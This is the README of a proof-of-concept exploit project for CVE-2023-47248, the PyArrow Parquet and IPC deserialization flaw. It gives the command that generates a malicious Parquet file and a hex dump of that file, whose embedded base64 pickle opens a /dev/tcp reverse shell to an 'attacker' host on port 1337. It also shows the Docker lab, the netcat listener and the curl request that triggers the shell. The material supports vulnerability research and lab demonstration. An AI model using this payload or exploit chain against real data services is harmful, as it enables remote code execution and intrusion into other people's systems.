

# CVE-2023-47248

This project contains proof of concept exploit implementations for
[CVE-2023-47248](https://nvd.nist.gov/vuln/detail/CVE-2023-47248):

> Deserialization of untrusted data in IPC and Parquet readers in PyArrow versions 0.14.0 to 14.0.0 allows arbitrary
code execution. An application is vulnerable if it reads Arrow IPC, Feather or Parquet data from untrusted sources.

RCE happens due to unsafe unpickling of user-defined Arrow types created as subclasses of the `PyExtensionType` class
(which was deprecated in version 14.0.1). The `__reduce__` magic method of the user-defined type class can be crafted
in such a way that it executes malicious code (e.g., a reverse shell payload) when the object is unpickled.

## Exploit PoCs

### Parquet

The `exploit_parquet.py` Python script generates a Parquet file that establishes a reverse shell when read by the
vulnerable PyArrow library versions. This Parquet file is used in the Docker-based PoC scenarios to demonstrate how
threat actors can use it. For example, for lateral movement within data platforms if they obtain access to the data
lake.



The `poc_parquet/data` directory contains two Parquet files: `benign.parquet` and `malicious.parquet`. The former is a
simple Parquet file with legit data, while the latter is an evil file that reproduces the same schema as the benign file
but contains a malicious pickled Arrow type object in the metadata:

```
$ parquet-tools show poc_parquet/data/benign.parquet
+------+--------+
|   id | name   |
|------+--------|
|    1 | alice  |
|    2 | bob    |
+------+--------+
```

```
$ r2 -qc 'px $s' poc_parquet/data/benign.parquet 
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00000000  5041 5231 1500 152c 1530 2c15 0415 0015  PAR1...,.0,.....
0x00000010  0615 0600 0016 5402 0000 0004 0101 0000  ......T.........
0x00000020  0000 0000 0002 0000 0000 0000 0015 0015  ................
0x00000030  2c15 302c 1504 1500 1506 1506 0000 1654  ,.0,...........T
0x00000040  0200 0000 0401 0500 0000 616c 6963 6503  ..........alice.
0x00000050  0000 0062 6f62 1502 193c 3500 180d 6475  ...bob...<5...du
0x00000060  636b 6462 5f73 6368 656d 6115 0400 1504  ckdb_schema.....
0x00000070  2502 1802 6964 2524 0015 0c25 0218 046e  %...id%$...%...n
0x00000080  616d 6525 0000 1604 191c 192c 2600 1c15  ame%.......,&...
0x00000090  0419 1500 1918 0269 6415 0216 0416 4e16  .......id.....N.
0x000000a0  5226 083c 1808 0200 0000 0000 0000 1808  R&.<............
0x000000b0  0100 0000 0000 0000 1600 2808 0200 0000  ..........(.....
0x000000c0  0000 0000 1808 0100 0000 0000 0000 0000  ................
0x000000d0  0026 001c 150c 1915 0019 1804 6e61 6d65  .&..........name
0x000000e0  1502 1604 164e 1652 265a 3c18 0362 6f62  .....N.R&Z<..bob
0x000000f0  1805 616c 6963 6516 0028 0362 6f62 1805  ..alice..(.bob..
0x00000100  616c 6963 6500 0000 1680 8806 1604 2608  alice.........&.
0x00000110  0028 0644 7563 6b44 4200 c400 0000 5041  .(.DuckDB.....PA
0x00000120  5231
```

The malicious Parquet file is generated by running the `exploit_parquet.py` script:

```
$ pipenv install
$ pipenv run python exploit_parquet.py attacker 1337 poc/data/malicious.parquet
```

The first argument is the attacker's IP address or hostname, and in this particular case it's set to the container name
`attacker` defined in the [Docker Compose](./poc_parquet/docker-compose.yml) file.

The malicious PyArrow schema is stored in the file from offset 0x100 to 0x3e3:
```
$ r2 -qc 'px $s' poc_parquet/data/malicious.parquet
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00000000  5041 5231 1504 1500 1502 4c15 0015 0012  PAR1......L.....
0x00000010  0000 0026 261c 1504 1925 0006 1918 0269  ...&&....%.....i
0x00000020  6415 0216 0016 1c16 1e26 0026 0829 1c15  d........&.&.)..
0x00000030  0415 0015 0200 0000 1504 1500 1502 4c15  ..............L.
0x00000040  0015 0012 0000 0026 8e01 1c15 0c19 2500  .......&......%.
0x00000050  0619 1804 6e61 6d65 1502 1600 161c 161e  ....name........
0x00000060  2600 2670 291c 1504 1500 1502 0000 0015  &.&p)...........
0x00000070  0419 3c35 0018 0673 6368 656d 6115 0400  ..<5...schema...
0x00000080  1504 2502 1802 6964 0015 0c25 0218 046e  ..%...id...%...n
0x00000090  616d 6525 004c 1c00 0000 1600 191c 192c  ame%.L.........,
0x000000a0  2626 1c15 0419 2500 0619 1802 6964 1502  &&....%.....id..
0x000000b0  1600 161c 161e 2600 2608 291c 1504 1500  ......&.&.).....
0x000000c0  1502 0000 0026 8e01 1c15 0c19 2500 0619  .....&......%...
0x000000d0  1804 6e61 6d65 1502 1600 161c 161e 2600  ..name........&.
0x000000e0  2670 291c 1504 1500 1502 0000 0016 3816  &p)...........8.
0x000000f0  0026 0816 3c14 0000 191c 180c 4152 524f  .&..<.......ARRO
0x00000100  573a 7363 6865 6d61 18d8 052f 2f2f 2f2f  W:schema.../////
0x00000110  7867 4341 4141 5141 4141 4141 4141 4b41  xgCAAAQAAAAAAAKA
0x00000120  4177 4142 6741 4641 4167 4143 6741 4141  AwABgAFAAgACgAAA
0x00000130  4141 4242 4141 4d41 4141 4143 4141 4941  AABBAAMAAAACAAIA
0x00000140  4141 4142 4141 4941 4141 4142 4141 4141  AAABAAIAAAABAAAA
0x00000150  4149 4141 4143 3041 5141 4147 4141 4141  AIAAAC0AQAAGAAAA
0x00000160  4141 4145 6741 5941 4167 4142 6741 4841  AAAEgAYAAgABgAHA
0x00000170  4177 4141 4141 5141 4251 4145 6741 4141  AwAAAAQABQAEgAAA
0x00000180  4141 4141 5155 5541 4141 4165 4145 4141  AAAAQUUAAAAeAEAA
0x00000190  4167 4141 4141 5541 4141 4141 4141 4141  AgAAAAUAAAAAAAAA
0x000001a0  4151 4141 4142 7559 5731 6c41 4141 4141  AQAAABuYW1lAAAAA
0x000001b0  4149 4141 4142 5541 4141 4142 4141 4141  AIAAABUAAAABAAAA
0x000001c0  4c7a 2f2f 2f38 4941 4141 4149 4141 4141  Lz///8IAAAAIAAAA
0x000001d0  4251 4141 4142 4255 6c4a 5056 7a70 6c65  BQAAABBUlJPVzple
0x000001e0  4852 6c62 6e4e 7062 3234 3662 6d46 745a  HRlbnNpb246bmFtZ
0x000001f0  5141 4141 4141 5841 4141 4159 584a 7962  QAAAAAXAAAAYXJyb
0x00000200  3363 7563 486c 665a 5868 305a 5735 7a61  3cucHlfZXh0ZW5za
0x00000210  5739 7558 3352 3563 4755 4143 4141 4d41  W9uX3R5cGUACAAMA
0x00000220  4151 4143 4141 4941 4141 4143 4141 4141  AQACAAIAAAACAAAA
0x00000230  4351 4141 4141 5941 4141 4151 564a 5354  CQAAAAYAAAAQVJST
0x00000240  3163 365a 5868 305a 5735 7a61 5739 754f  1c6ZXh0ZW5zaW9uO
0x00000250  6d31 6c64 4746 6b59 5852 6841 4141 4141  m1ldGFkYXRhAAAAA
0x00000260  4d38 4141 4143 4142 4a58 4541 4141 4141  M8AAACABJXEAAAAA
0x00000270  4141 4141 4977 4a5a 6e56 7559 3352 7662  AAAAIwJZnVuY3Rvb
0x00000280  3278 7a6c 4977 4863 4746 7964 476c 6862  2xzlIwHcGFydGlhb
0x00000290  4a53 546c 4977 4b63 3356 6963 484a 7659  JSTlIwKc3VicHJvY
0x000002a0  3256 7a63 3553 4d42 5642 7663 4756 756c  2Vzc5SMBVBvcGVul
0x000002b0  4a4f 5568 5a52 536c 4368 6f42 536c 396c  JOUhZRSlChoBSl9l
0x000002c0  4369 4d45 584e 3059 584a 3058 3235 6c64  CiMEXN0YXJ0X25ld
0x000002d0  3139 7a5a 584e 7a61 5739 756c 4969 4d42  19zZXNzaW9ulIiMB
0x000002e0  6e4e 305a 4739 3164 4a52 4b2f 662f 2f2f  nN0ZG91dJRK/f///
0x000002f0  3477 4763 3352 6b5a 584a 796c 4572 392f  4wGc3RkZXJylEr9/
0x00000300  2f2f 2f64 5535 306c 474a 646c 4369 4d42  ///dU50lGJdlCiMB
0x00000310  474a 6863 3269 556a 4149 7459 3553 4d4f  GJhc2iUjAItY5SMO
0x00000320  5441 384a 6a55 784c 5474 6c65 4756 6a49  TA8JjUxLTtleGVjI
0x00000330  4455 7850 4434 765a 4756 324c 3352 6a63  DUxPD4vZGV2L3Rjc
0x00000340  4339 6864 4852 6859 3274 6c63 6938 784d  C9hdHRhY2tlci8xM
0x00000350  7a4d 334f 334e 6f49 4477 6d4e 5445 6750  zM3O3NoIDwmNTEgP
0x00000360  6959 314d 5341 7950 6959 314d 5a52 6c68  iY1MSAyPiY1MZRlh
0x00000370  5a52 536c 4573 4259 6934 4142 4141 4541  ZRSlEsBYi4ABAAEA
0x00000380  4151 4141 4141 5141 4251 4143 4141 4741  AQAAAAQABQACAAGA
0x00000390  4163 4144 4141 4141 4241 4145 4141 4141  AcADAAAABAAEAAAA
0x000003a0  4141 4141 5149 5141 4141 4148 4141 4141  AAAAQIQAAAAHAAAA
0x000003b0  4151 4141 4141 4141 4141 4141 6741 4141  AQAAAAAAAAAAgAAA
0x000003c0  476c 6b41 4141 4941 4177 4143 4141 4841  GlkAAAIAAwACAAHA
0x000003d0  4167 4141 4141 4141 4141 4251 4141 4141  AgAAAAAAAABQAAAA
0x000003e0  413d 3d00 1820 7061 7271 7565 742d 6370  A==.. parquet-cp
0x000003f0  702d 6172 726f 7720 7665 7273 696f 6e20  p-arrow version 
0x00000400  3134 2e30 2e30 192c 1c00 001c 0000 00a0  14.0.0.,........
0x00000410  0300 0050 4152 31                        ...PAR1
```

To execute the PoC scenario, first start the Docker containers:
```
$ cd poc_parquet
$ docker-compose up -d
[+] Building 0.0s (0/0)
[+] Running 5/5
✔ Network poc_parquet_default  Created
✔ Container minio              Started
✔ Container vulnerable-service Started 
✔ Container attacker           Started
✔ Container mc                 Started
```

Then connect to the `attacker` container and start a netcat listener on port 1337:
```
$ docker exec -it attacker /bin/bash 
bash-5.0# nc -nlvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
```

Finally, make the vulnerable service read the malicious Parquet file by triggering the exposed HTTP endpoint:
```
$ curl localhost:8080
{"id":[1,2],"name":["alice","bob"]}
```

After that, the reverse shell to the attacker container should be established.
